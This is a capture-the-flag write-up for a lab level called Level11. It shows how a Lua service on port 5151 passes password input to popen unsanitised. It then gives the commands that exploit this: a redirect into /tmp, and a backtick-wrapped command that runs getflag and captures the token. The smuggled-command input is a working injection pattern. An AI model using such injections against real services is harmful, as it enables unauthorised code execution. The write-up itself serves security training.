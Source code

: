 # Level11

First of all, a .lua script can be found in the directory with flag11 rights

```bash
./level11.lua
lua: ./level11.lua:3: address already in use
```

```bash
ps aux | grep flag11
flag11    1840  0.0  0.0   2892   828 ?        S    13:46   0:00 lua /home/user/level11/level11.lua
```

The script appears to already be running

```bash
nc localhost 5151
Password: test
Erf nope..
```

```bash
nc localhost 5151
Password: x > /tmp/test
cat /tmp/test
x
```

The script "popen" method calls echo on the input string with no security
This means we can inject our own code and have it run getflag

```bash
nc localhost 5151
Password: `getflag > /tmp/token`
cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```